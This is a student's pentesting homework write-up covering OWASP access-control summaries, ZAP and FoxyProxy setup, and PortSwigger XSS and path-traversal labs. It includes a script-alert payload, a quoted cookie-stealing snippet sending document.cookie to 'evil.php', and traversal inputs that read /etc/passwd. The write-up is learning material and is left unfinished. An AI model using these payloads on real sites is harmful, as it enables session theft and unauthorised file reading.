## Yunwei Cui | Pentesting Course

# h3: Totally legal certificate

## x. Summaries

### A:01:2021 Broken Access Control

Access control refers to the ability of users to modify, create and read data in their roles. Sometimes a business has databases or apps or cloud infra and you should give certain people only certain permissions to do their intended work without accidentally allowing them to delete everything.

Examples:
- Violation of least privilege
- Modifying URL or API requests can break AC
- Elevating your privilegess to admin even if you're just a normal user
- Insecure direct object references which means modifying an ID of a request parameter in order to access data they are not supposed get access to (PortSwigger)

Some ways to prevent these:
- Implementing least privilege, models to control ownership, log access and failures, alert admins of repeated failures

#### Insecure Direct Object Reference 
aka IDOR means that the user gets direct access to objects such as database. 
- An example would be an URL that retrieves information directly from the back-end database. An attacker could modify the URL to retrieve something else other than what you want them to get if not secured properly
- This sounds a lot like SQL injection except instead of injecting a query, you simply do not have the proper restrictions to the database access

#### Path Traversal
Let's the attacker read files on the server running the app which you didn't intend for them to read. This could include sensitive data and passwords. An url could include filename such as `src=/files/usr/something.png`, you could potentially change the file path to display something else.

#### Cross Site Scripting
aka XSS is a vulnerability that allows an attacker to modify the javascript of the page and potentially compromise users who login into the page. An example of this would be the using the alert() function to inject malicious javascript code or inserting `<script>` tag into an HTTP request.

It can also be stored, for example, if an app let's you write plain HTML into their web app without any security checks, you could inject malicious `<script>` tags into them to do bad things.


## a. Install OWASP ZAP

I downloaded zaproxy using `sudo apt-get install zaproxy`



Next I need to get a certificate for the proxy to act as an intermediary between the browser and me. 

It was found under Tools => Options => Network => Server Certificates and generated the certificate



I then went to Firefox, imported the certificate and saved.




Finally I went into the browser, turned on the proxy setting on Firefox and set up the proxy.





I used localhost on port 8080, saved and opened Google.com. We can see that zap is listening properly on the right ports.



## b. Install FoxyProxy

Installing it is straightforward, it's an extension that is added on Firefox



First I had to disable manual proxy in Firefox and opened FoxyProxy. I went into the options and Proxies and put in the ZAP proxy localhost settings and used port 8080. Remember to save.



Now we can go back and see ZAP as a setting on FoxyProxy which we can use. We can choose between disable and ZAP.



It works.


## c Reflected XSS into HTML context with nothing encoded

This is a Portswigger lab about cross site scripting. The searchbar is vulnerable to cross-site scripting because it runs the given input unsanitized as HTML which is very dangerous. It can lead to stealing of cookie sessions with a simple script.



Here I will just do a demonstration that Javascript works by using `<script>alert('this is vulnerable');</script>`



## d. Stored XSS into HTML context with nothing encoded

In this portswigger lab, we have a comment section which is vulnerable to XSS. We can check this with the same script as a comment: `<script>alert('this is vulnerable');</script>`



Now when we go back after submitting the comment or refresh the page, we get a popup alert, meaning that it executed our javascript:



## e. Why is this dangerous?

The reason this can be dangerous is because it can be used to steal your cookie sessions on the webpages you visit such as facebook, gmail, etc.

An example on OWASP.ORG: 

```javascript
<SCRIPT type="text/javascript">
var adr = '../evil.php?cakemonster=' + escape(document.cookie);
</SCRIPT>
```  
This allows the person to grab all your cookies and write to attacker's file on their .php server

Not only that, the bad actor could write malware or malicious code that does bad things to your computer. It's very difficult to protect yourself from this because it is the website developer's responsibility to make sure their site is safe. 

## f. File path traversal, simple case

In this portswigger lab, we are trying to traverse the server machine's directories to get to /etc/passwd

This requires a proxy to modify the file retrieval of the image file: 



We can see that the image is stored as `/resources/images/rating4.png`

We now use ZAP to intercept the HTML GET request and will start modifying it.

I watched a YouTube tutorial that explains ZAP how to use the requester to modify the HTML content before it is displayed by Bash Bunny: https://www.youtube.com/watch?v=MT01x-vyCJU

First I found the GET image request and sent it to the requester


In the requester tab we can see the image and modify the path that gets the image. Here it is `filename=44.jpg` We will change the filepath after the `=` sign.



We will add our injection: `../../../etc/passwd`

It shows a 200 OK, meaning that the request went through: 


Now when we change the body type from img to text we see the passwd file:



This lab is now solved

## g. File path traversal, traversal sequences blocked with absolute path bypass

In this portswigger lab, the direct path traversal is blocked but we can modify the absolute path which is simply `/etc/passwd` right after the filename. In this case we are not traversing through the machine but simply getting it from the root folder itself.



We will modify filename as `filename=/etc/passwd` without the traversal part of `../../`



And the lab is solved, albeit I expected something more complicated such as modifying the `filename=` to something else.

## h.  File path traversal, traversal sequences stripped non-recursively

## i. Insecure direct object references

## k Mitmproxy

## l

## References
https://terokarvinen.com/tunkeutumistestaus/#h3-taysin-laillinen-sertifikaatti

https://www.youtube.com/watch?v=_Of3PqqKxDA

https://owasp.org/Top10/A01_2021-Broken_Access_Control/

https://portswigger.net/web-security/access-control/idor

https://portswigger.net/web-security/file-path-traversal

https://portswigger.net/web-security/cross-site-scripting

https://www.zaproxy.org/getting-started/

https://www.youtube.com/watch?v=tmk3yfOJ55w

https://owasp.org/www-community/attacks/xss/

https://www.youtube.com/watch?v=MT01x-vyCJU

https://portswigger.net/web-security/file-path-traversal/lab-absolute-path-bypass